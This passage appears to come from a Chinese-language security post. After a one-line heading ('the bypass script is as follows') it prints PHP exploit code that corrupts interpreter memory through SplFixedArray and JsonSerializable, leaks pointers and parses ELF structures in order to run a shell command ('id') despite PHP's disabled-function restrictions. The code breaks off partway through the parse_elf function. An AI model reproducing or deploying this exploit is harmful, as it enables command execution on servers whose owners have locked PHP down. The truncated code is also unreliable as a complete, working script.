 绕过脚本如下：
```php
<?php

$cmd = "id";

$n_alloc = 10; # increase this value if you get segfaults

class MySplFixedArray extends SplFixedArray {
    public static $leak;
}

class Z implements JsonSerializable {
    public function write(&$str, $p, $v, $n = 8) {
      $i = 0;
      for($i = 0; $i < $n; $i++) {
        $str[$p + $i] = chr($v & 0xff);
        $v >>= 8;
      }
    }

    public function str2ptr(&$str, $p = 0, $s = 8) {
        $address = 0;
        for($j = $s-1; $j >= 0; $j--) {
            $address <<= 8;
            $address |= ord($str[$p+$j]);
        }
        return $address;
    }

    public function ptr2str($ptr, $m = 8) {
        $out = "";
        for ($i=0; $i < $m; $i++) {
            $out .= chr($ptr & 0xff);
            $ptr >>= 8;
        }
        return $out;
    }

    # unable to leak ro segments
    public function leak1($addr) {
        global $spl1;

        $this->write($this->abc, 8, $addr - 0x10);
        return strlen(get_class($spl1));
    }

    # the real deal
    public function leak2($addr, $p = 0, $s = 8) {
        global $spl1, $fake_tbl_off;

        # fake reference zval
        $this->write($this->abc, $fake_tbl_off + 0x10, 0xdeadbeef); # gc_refcounted
        $this->write($this->abc, $fake_tbl_off + 0x18, $addr + $p - 0x10); # zval
        $this->write($this->abc, $fake_tbl_off + 0x20, 6); # type (string)

        $leak = strlen($spl1::$leak);
        if($s != 8) { $leak %= 2 << ($s * 8) - 1; }

        return $leak;
    }

    public function parse_elf($base) {
        $e_type = $this->leak2($base, 0x10, 2);
```
